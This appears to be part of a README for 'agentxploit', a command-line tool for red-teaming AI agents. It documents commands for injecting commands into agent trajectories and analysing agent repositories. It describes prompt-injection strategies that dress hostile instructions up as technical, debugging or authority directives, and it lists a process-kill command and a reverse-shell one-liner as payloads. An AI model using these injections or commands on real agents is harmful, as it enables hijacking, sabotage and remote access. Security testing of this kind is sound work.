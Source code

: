 **Options:**
- `-d, --directory PATH` - Directory with trajectory files (required)
- `-s, --strategy` - Injection strategy (default: technical)
- `-p, --payload TEXT` - Custom injection command
- `--max-workers INT` - Concurrent workers (default: 3)
- `-v, --verbose` - Enable detailed logging
- `--dry-run` - Estimate costs without API calls

### 3. Static Repository Analysis (`static`)

Performs static analysis of an agent repository.

```bash
agentxploit static -r ./target_agent/
agentxploit static -r ./target_agent/ --max-files 30
```

**Options:**
- `-r, --repository PATH` - Agent repository to analyze (required)
- `--max-files INT` - Maximum files to read (default: 20)
- `-v, --verbose` - Enable detailed logging
- `--dry-run` - Perform dry run without API calls

### 4. Comprehensive Security Analysis (`comprehensive`)

Combines static analysis with injection vulnerability assessment.

```bash
agentxploit comprehensive -r ./target_agent/
agentxploit comprehensive -r ./target_agent/ -s authority --max-files 25
```

**Options:**
- `-r, --repository PATH` - Agent repository to analyze (required)
- `--max-files INT` - Maximum files to read (default: 20)
- `-s, --strategy` - Injection strategy: `technical`, `debug`, `authority` (default: technical)
- `-p, --payload TEXT` - Custom injection command
- `-v, --verbose` - Enable detailed logging
- `--dry-run` - Perform dry run without API calls

## Injection Strategies

| Strategy | Description | Use Case |
|----------|-------------|----------|
| `technical` | Technical justification disguise | System administration scenarios |
| `debug` | Debugging requirement disguise | Troubleshooting contexts |
| `authority` | Authority-based instructions | Administrative directives |

## Command Types

| Type | Command | Purpose | Risk Level |
|------|---------|---------|------------|
| `pkill` (default) | `pkill -f "action_execution_server"` | Process termination | Medium |
| `reverse-shell` | `bash -i >& /dev/tcp/IP/PORT 0>&1` | Remote access | High |
| `custom` | User-defined | Specific test scenarios | Varies |
